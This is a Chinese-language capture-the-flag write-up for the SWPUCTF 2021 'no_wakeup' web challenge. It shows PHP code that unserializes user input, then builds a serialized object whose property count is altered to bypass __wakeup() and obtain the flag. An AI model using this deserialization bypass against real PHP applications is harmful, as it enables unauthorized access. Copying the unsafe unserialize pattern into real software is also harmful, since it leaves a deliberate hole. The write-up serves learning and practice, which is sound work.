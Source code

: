 ```yaml
---
title: SWPUCTF 2021 新生赛 no_wakeup
description: 高中时期在NSSCTF上刷题的题解
author: lamaper
date: 2022-08-09 20:12:00 +0800
categories: [Cyber Security]
tags: [ctf, web, php]
math: true
mermaid: true
---
```


# [SWPUCTF 2021 新生赛]no_wakeup lamaper的WriteUp

### 知识点：反序列化、__weakup()绕过

进入题目发现源代码
```php
<?php
header("Content-type:text/html;charset=utf-8");
error_reporting(0);
show_source("class.php");
class HaHaHa{
        public $admin;
        public $passwd;

        public function __construct(){
            $this->admin ="user";
            $this->passwd = "123456";
        }

        public function __wakeup(){
            $this->passwd = sha1($this->passwd);
        }

        public function __destruct(){
            if($this->admin === "admin" && $this->passwd === "wllm"){
                include("flag.php");
                echo $flag;
            }else{
                echo $this->passwd;
                echo "No wake up";
            }
        }
    }
$Letmeseesee = $_GET['p'];
unserialize($Letmeseesee);
?>
```
在29行程序调用反序列化方法时，会自动执行__weakup()函数，而显然weakup方法会加密上传的序列化参数中的passwd，而sha1是不可逆加密算法，目前也没有合适的sha1碰撞的方式，故考虑到绕过__weakup()函数；

php的特性，当序列化后对象的参数列表中成员个数和实际个数不符合时会绕过 __weakup(); 因而先构造
```php
$aa = new HaHaHa();
$aa->admin = "admin";
$aa->passwd = "wllm";
$stus = serialize($aa);
print_r($stus);
```
得到
```
O:6:"HaHaHa":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```
修改得到
```
O:6:"HaHaHa":3:{s:5:"admin";s:5:"admin";s:6:"passwd";s:4:"wllm";}
```
上传即可